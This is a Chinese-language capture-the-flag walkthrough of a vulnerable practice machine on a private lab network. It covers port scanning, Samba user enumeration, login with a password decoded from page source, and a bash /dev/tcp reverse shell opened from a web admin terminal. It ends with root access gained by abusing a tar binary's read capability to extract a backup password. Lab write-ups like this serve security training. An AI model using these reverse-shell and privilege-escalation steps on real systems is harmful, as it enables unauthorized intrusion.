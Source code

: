 
# 0X00 环境
**攻击机：**192.168.1.37<br />**目标机：**192.168.1.10


# 0X01 信息收集
使用[NMAP](https://www.yuque.com/xmtxsec/network_security/xm1y1f)进行端口扫描
```
nmap -sV -A 192.168.1.10 -p-
```
![image.png](../../_img\06-靶场实践/1671763067854-9fc4c275-e35c-44f8-b67c-a92f7106f3b5.png)
通过扫描结果可以发现开放了五个端口分别是：80、139、445、10000、20000

80端口的页面就是一个Apache2 Debian的默认页面没啥信息，但是在源码有一串疑似加密的字符
![image.png](../../_img\06-靶场实践/1671763439409-ca1afe71-cc32-4fd0-9b0b-618adf8f8da7.png)

百度[解密](http://tool.bugku.com/brainfuck/?wafcloud=1)的到`.2uqPEfj3D<P'a-3`
![image.png](../../_img\06-靶场实践/1671763595229-c1f59582-7873-43a6-a291-d8c36d10a30f.png)

10000端口和20000端口都是登录页面上面得到的字符串可能是密码
![image.png](../../_img\06-靶场实践/1671763724842-93d6fc0a-1d33-4e4d-8dfb-13bff4b9a6cd.png)

在前面端口扫描中扫描出139和445端口是Samba服务，尝试用[enum4linux](https://www.yuque.com/xmtxsec/network_security/dld4wott34mzhboe)探测一下目标的Samba信息，成功得到账号`cyber`
```
enum4linux -a 192.168.1.10
```
![image.png](../../_img\06-靶场实践/1671765326782-dbf8c1b2-5bcc-4bc8-8f2c-13536e259881.png)

尝试将上面扫描出来的账号`cyber`和密码`.2uqPEfj3D<P'a-3`进行登录<br />在10000端口登录失败，在20000端口登录成功
![image.png](../../_img\06-靶场实践/1671765508763-48e25ac5-cba2-4a4a-b461-d31080a1334f.png)


# 0X02 漏洞发现
登陆后在页面探索发现在目录下面可以开启命令框可以执行命令
![image.png](../../_img\06-靶场实践/1671765641423-53487e36-3e66-4cd8-8251-5513264829e9.png)
![image.png](../../_img\06-靶场实践/1671765679927-4b39f542-cd45-4067-9bc3-71f4864e7cff.png)


# 0X03 漏洞利用
尝试反弹shell<br />攻击机开启监听
```
nc -lvp 6666
```

在靶机命令框执行以下命令
```
bash -i >& /dev/tcp/192.168.1.37/6666 0>&1
```
成功反弹shell
![image.png](../../_img\06-靶场实践/1671765968810-95c0beeb-8324-48e1-a77b-9b4521f60ac4.png)


# 0X04 提权 
查看当前用户所具有的权限
```
sudo -l
```
![image.png](../../_img\06-靶场实践/1671766112935-16226dcf-96c5-4dba-ba96-a88eba422d48.png)

 查找具有特殊权限SUID的文件，没什么可以利用的
```
find / -perm -u=s -type f 2>/dev/null
```
![image.png](../../_img\06-靶场实践/1671766310348-6976511e-41b5-4e38-b325-c1dbdf8e3d44.png)

在前面查看flag的时候目录下有一个tar文件，查看一下他的权限
```
ls -l tar
getcap tar
```
![image.png](../../_img\06-靶场实践/1671766796800-482d494f-20f8-449f-8573-6526c9f620ce.png)
这里可以看到tar具有root权限并且可以[读取任意文件](https://blog.csdn.net/megan_free/article/details/100357702)

经过查找发现在var/backups下的一个备份文件.old_pass.bak
![image.png](../../_img\06-靶场实践/1671767044584-28540eb8-d813-4e48-ac64-b7303d0173dc.png)

可以看到这个文件并没有执行权限，但是tar文件有执行权限，所以我们可以**把这个文件用tar压缩后再用系统的tar文件解压**，这样就没有权限问题
```
./tar -cvf passwd.tar /var/backups/.old_pass.bak 
tar -xvf passwd.tar
```
 ![image.png](../../_img\06-靶场实践/1671769120932-77eca096-ccf5-404f-a9e3-14441e7d665b.png)
得到密码`Ts&4&YurgtRX(=~h`

尝试登录root用户，成功得到flag
![image.png](../../_img\06-靶场实践/1671769446078-7cff4916-5eb8-4a73-91ed-936203ee88d4.png)





